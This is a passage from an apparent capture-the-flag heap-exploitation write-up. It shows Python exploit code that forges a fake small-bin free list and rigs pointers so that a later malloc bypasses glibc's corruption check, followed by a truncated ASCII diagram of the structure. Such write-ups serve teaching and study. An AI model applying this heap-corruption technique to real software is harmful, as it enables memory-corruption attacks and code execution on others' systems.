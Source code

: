 Where `fd` is any value and `bk` is a pointer to `buf1`.



Lastly, the `fake free list` will be created and `buf1` and `buf2` will be populated:

```python
# Create the fake free list
payload = b'\x11'*0x110             # Padding to reach pointers

# -------------- Setup fake free list --------------- #
for i in range(1, 7):
    payload += p64(0xFFFFFFFFFFFFFFFF)*3    # Padding
    payload += p64(fake_free + (8*4)*i)     # Calculate offset to next fake free entry (BK pointer)
payload += p64(0xFFFFFFFFFFFFFFFF)*3        # Padding
payload += p64(0)                           # Null-byte to "terminate" free linked list 
# -------------------------------------------------- #

# Buf 2
payload += p64(0)*2                     # Padding
payload += p64(buf1)                    # Forward pointer to buf 1
payload += p64(fake_free)               # Pointer to fake free list

# Buf 1
payload += p64(0)*2                     # Padding
payload += p64(heap_leak + 0xee0)       # Forward pointer to "victim chunk" to bypass the check of small bin corruption
payload += p64(buf2)                    # Backward pointer to buf 2

payload += b'\x44'*(0x9f8-len(payload)) # Padding

edit(4, payload)                        # Apply payload

# Cause fake free list to be loaded
malloc(248, b'$'*248) # <--- This is now mallocd on top of a free small bin, but we don't care 
```



Creating a structure that looks like the following (The `hex values` to the left of the `chunks` are pretend `addresses`):

````

                Fake free list
              ┌────────┬────────┐
0x1000────────┤0xffffff│0xffffff│◄───┐
              ├────────┼────────┤    │
              │0xffffff│ 0x1020 ├──┐ │
              ├────────┼────────┤  │ │
0x1020────────┤0xffffff│0xffffff│◄─┘ │
              ├────────┼────────┤    │
              │0xffffff│ 0x1040 ├──┐ │
              ├────────┼────────┤  │ │
0x1040────────┤0xffffff│0xffffff│◄─┘ │
              ├────────┼────────┤    │
              │0xffffff│ 0x1060 ├──┐ │
              ├────────┼────────┤  │ │
0x1060────────┤0xffffff│0xffffff│◄─┘ │
              ├────────┼────────┤    │
              │0xffffff│ 0x1080 ├──┐ │
              ├────────┼────────┤  │ │
0x1080────────┤0xffffff│0xffffff│◄─┘ │
              ├────────┼────────┤    │
              │0xffffff│ 0x10a0 ├──┐ │
              ├────────┼────────┤  │ │
0x10a0────────┤0xffffff│0xffffff│◄─┘ │
              ├────────┼────────┤    │
````